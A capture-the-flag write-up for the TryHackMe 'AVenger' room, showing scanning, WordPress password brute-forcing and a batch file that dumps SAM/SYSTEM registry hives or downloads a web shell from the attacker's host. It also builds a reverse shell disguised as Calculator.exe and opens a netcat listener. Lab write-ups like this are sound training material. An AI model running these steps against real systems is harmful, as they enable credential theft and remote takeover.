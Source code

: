 # AVenger

**Room Link:** [https://tryhackme.com/r/room/avenger](https://tryhackme.com/r/room/avenger)

**Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (978).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (984).png" alt=""><figcaption></figcaption></figure>



### **TCP/80 - HTTP** <a href="#tcp-80-http" id="tcp-80-http"></a>

**Find Pages**

There were too many 404 and 403 in the scan so I changed to ffuf to ignore them.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

**Kali**

```
ffuf -u http://$VICTIM/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```

<figure><img src="../../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>









<figure><img src="../../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>





The gift folder takes us to avenger.tryhackme

<figure><img src="../../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>



**Add hostname to host file**

**Kali**

```
echo $VICTIM avenger.tryhackme  >> /etc/hosts
cat /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ffuf -u http://avenger.tryhackme/gift/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```





**Kali**

```
 wpscan --url http://avenger.tryhackme/gift --enumerate p
```

<figure><img src="../../.gitbook/assets/image (987).png" alt=""><figcaption></figcaption></figure>

**Bruteforce admin page**

**Kali**

```
wpscan --url http://avenger.tryhackme/gift --passwords /usr/share/wordlists/rockyou.txt
```



<figure><img src="../../.gitbook/assets/image (988).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/flozz/p0wny-shell.git
cd p0wny-shell/ 
subl exploit.bat
```

**exploit.bat**

<pre><code><strong>@echo off
</strong>
:: Check if the current user is NT AUTHORITY\SYSTEM
whoami /groups | find "S-1-5-18" > nul

if %errorlevel% equ 0 (
    :: Run commands for NT AUTHORITY\SYSTEM
    reg.exe save HKLM\SYSTEM C:\xampp\htdocs\system.bak
    reg.exe save HKLM\SAM C:\xampp\htdocs\sam.bak
) else (
    :: Run commands for other users
    curl http://$KALI:82/shell.php -o C:\xampp\htdocs\shell.php
)
</code></pre>

**Kali**

```
python2 -m SimpleHTTPServer 82
```

<figure><img src="../../.gitbook/assets/image (989).png" alt=""><figcaption></figcaption></figure>





**Kali**

<pre><code>git clone https://github.com/Sn1r/Nim-Reverse-Shell.git
cd Nim-Reverse-Shell/
<strong>apt install mingw-w64 -y
</strong>curl https://nim-lang.org/choosenim/init.sh -sSf | sh
subl rev_shell.nim
/root/.nimble/bin/nim c -d:mingw-w64  --app:gui --opt:speed -o:Calculator.exe rev_shell.nim
</code></pre>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
/root/.nimble/bin/nim c -d:mingw-w64  --app:gui --opt:speed -o:Calculator.exe rev_shell.nim
```

**Kali #2**

```
rlwrap nc -lvnp 443
```







